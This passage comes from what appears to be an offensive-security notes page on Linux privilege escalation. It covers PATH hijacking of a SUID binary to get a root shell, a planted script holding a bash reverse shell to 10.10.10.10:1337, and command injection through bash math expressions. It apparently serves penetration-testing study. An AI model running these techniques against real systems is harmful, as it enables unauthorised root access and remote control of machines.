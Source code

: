 Then set the PATH variable before executing the vulnerable SUID program:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ PATH=/tmp:$PATH ./vulnerable
</strong># id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

#### Writable `$PATH` for another user

The above example was focused on SUID binaries, but this idea of overwriting programs in the PATH variable goes further. If due to a misconfiguration you are able to write in one of the earlier `$PATH` directories for a user, you can create a binary with the same name again to overwrite.

{% code title="/usr/local/service" %}
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/1337 0>&1
```
{% endcode %}

```shell-session
$ chmod +x /usr/local/service  # Make executable
```

## Attacking Bash Scripts

{% content-ref url="../bash.md" %}
[bash.md](../bash.md)
{% endcontent-ref %}

### Injecting Commands in Math

[bash.md](../bash.md "mention") scripts contain commands that are executed one by one. With logic like `if` for `for` this can become more powerful to script complex operations with support for user interaction. With this complexity also comes unexpected situations where an attacker can abuse your script in order to escape an environment or escalate privileges.

{% embed url="https://www.vidarholen.net/contents/blog/?p=716" %}
Source: explains the vulnerable cases and why this exists
{% endembed %}

You can explicitly tell bash to evaluate a math expression using the `$((EXPR))` syntax:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ echo $((1+1))
</strong>2
</code></pre>

The **vulnerability** is the fact that this math syntax allows substituting shell commands with the `a[$(COMMAND)]` syntax, normally used on array variables:

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ echo $((a[$(id)]))
</strong>bash: uid=1001(user) gid=1001(user) groups=1001(user): syntax error in expression (error token is "(user) gid=1001(user) groups=1001(user)")
</code></pre>
